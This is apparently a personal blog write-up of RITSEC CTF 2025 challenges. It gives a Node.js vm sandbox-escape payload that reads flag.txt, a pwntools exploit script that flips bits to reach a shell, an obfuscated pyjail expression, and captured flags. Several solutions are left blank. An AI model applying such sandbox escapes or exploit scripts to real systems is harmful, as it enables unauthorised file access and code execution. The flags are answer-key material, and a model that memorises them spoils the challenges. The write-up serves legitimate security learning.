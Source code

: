 ```yaml
---
weight: 1
title: "RITSEC CTF 2025"
date: 2025-03-21
lastmod: 2025-03-23
draft: false
author: "Xenonminer"
authorLink: "https://xenonminer.github.io"
description: "Writeup for the challenges in RITSEC CTF 2025"

tags: ["web", "pwn", "jail"]
categories: ["Writeups"]

lightgallery: true

toc:
  enable: true
---
```



- [https://ctftime.org/event/2673](https://ctftime.org/event/2673)
- March 21 - March 23

# My Solves/Writeups

## Web

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| web/virtual-mayhem | easy | 419 | [jump](#webvirtual-mayhem) |
| web/upload-issues | medium | 483 | [jump](#webupload-issues) |

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/bit-burger | easy | 467 | [jump](#pwnbit-burger) |
| pwn/hashmatch | medium | 499 | [jump](#pwnhashmatch) |

## Jail

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| jail/shrimple | easy | 494 | [jump](#jailshrimple) |
| jail/seti | easy | 496 | [jump](#jailseti) |

## Writeups
### web/virtual-mayhem

This application uses a virtual machine to sandbox user templates and filters potentially harmful input. However, every lock has its key. Can you figure out how to escape the virtual machine and retrieve the flag?

host5.metaproblems.com:7585

(This challenge was written by MetaCTF. The flag format is MetaCTF{})

Attachments: [virtual_mayhem.zip](https://ctfd.ritsec.club/files/6e87b37374f323335aff8977a297bfab/virtual_mayhem.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6MjV9.Z-B-Jg.1W0IXuC7B-qiAa6I6WEV7CCAFJQ)

### Solution

Final exploit:
```js
({}).constructor.constructor("return glo"+"bal['pr'+'ocess']['main'+'Module']['req'+'uire']('f'+'s').readFileSync('flag.txt','utf8')")()
```

Flag: ```i forgor```
### web/upload-issues

This site lets you look at cpio archives. If only we had an admin account, we could look at the flag...

web-upload-issues.ctf.ritsec.club

(This challenge was written by ICR.)

Attachments: [upload_issues.zip](https://ctfd.ritsec.club/files/84e7abaa156f638e60e0e780fc15cb30/upload_issues.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDB9.Z-B-1Q.6UTm9Z0hKBpLO7HF5X-MG3WDAqI)

### Solution


Flag: ```RS{b34m_m3_up_5c0tty}```

### pwn/bit-burger

Welcome to BitBurger, home of the world-famous Bit Burger! 🍔

Put in an order here: nc binex-bitburger.ctf.ritsec.club 32200

Only grilled or fried at the moment though, the other machines are broken, sorry!

(This challenge was written by MetaCTF.)

Attachments: [bit_burger.zip](https://ctfd.ritsec.club/files/0c89e0a38527c92bf27972fd41422f6b/bit_burger.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6MzB9.Z-B_Iw.X1IvBkP67LkqSFi2Vpo4WfpO1Jk)

### Solution
The idea for this challenge was simple, being just

Final Exploit:
```py
from pwn import *

s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe.path] + argv, *a, **kw)


def find_ip(payload):
    p = process([exe.path], level='warn')
    p.sendlineafter(b'>', payload)
    p.wait()
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
    warn('located EIP/RIP offset at ' + ip_offset)
    return ip_offset

gdbscript = '''
init-pwndbg
b *0x0000000000401601
continue
'''.format(**locals())

exe = ELF("./bit_burger.bin_patched")
elf = context.binary = exe
context.log_level = 'debug'

# Start Exploit

offset = 0

io = start()

bits_to_set_for_exec = [1,3,5,7,9,10,13,23]
#bits_to_set_for_exec = [2, 12, 15, 16, 18, 19, 20, 23, 24]
for i in range(1, 25):
    if i in bits_to_set_for_exec:
        sla(b'?', b'y')
    else:
        sla(b'?', b'n')

sla(b':', b'a')
itr()
```
Flag: ```pTCNp5p6LP0d7qA77yvb4SHf40```

### pwn/hashmatch

This server is asking me to reverse a hash for a flag, but brute forcing MD5 sounds tedious. Maybe there's something more... fun we can do to find the flag.

nc hashmatch.ctf.ritsec.club 30898

When you connect, type your input and it will be handled by the challenge.

(This challenge was written by ICR.)

Attachments: [hashmatch.zip](https://ctfd.ritsec.club/files/67524143b8aa8bae3bfbaff845e09347/hashmatch.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NTJ9.Z-B_XA.zBZo6IPQg71dIx3iQ-ZWwHN-SZU)

### Solution
Note: Solved after the CTF ended.

Flag: ```nuclei```

### jail/shrimple

As shrimple as that :p

nc shrimple.ctf.ritsec.club 32195

Attachments: [shrimple.py](https://ctfd.ritsec.club/files/1dca913b2e6e8ffc19dfc1fd1164dfc6/shrimple.py?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDZ9.Z-B_gA.q6QKBzoDeEEQIopttb2b_ymfifU)

### Solution
After cleaning up many uneeded parentheses, I was eventually able to reach the 210 character limit.

Final exploit:
```
"((-~([]<[])<<-~-~-~-~([]<[]))--~-~([]<[])<<(-~(-~([]<[])<<-~-~-~-~([]<[]))--~-~([]<[])))-(-~-~-~-~([]<[]))**-~-~-~-~-~-~([]<[])+(-~-~([]<[])<<(-~-~-~-~-~-~([]<[])))+((-~([]<[]))<<-~-~-~-~-~([]<[]))--~-~([]<[])"
```

Then, after forming the image with CyberChef, throwing into [georgeom.net/StegOnline/](georgeom.net/StegOnline/) and browsing bit planes showed the flag.
```Flag: RS{n0t_s0_sHr1Mp13_any_m0r3_:3}```

### jail/seti

Come join our search for alien life

nc seti.ctf.ritsec.club 31793

Attachments: [seti.zip](https://ctfd.ritsec.club/files/fa22e106dfa5538a985b2fb282edc4a0/seti.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDV9.Z-B_xA.dZ9pU6kxOysjF--ANSYzv8NGKd0)

### Solution


Flag: ```i forgor```
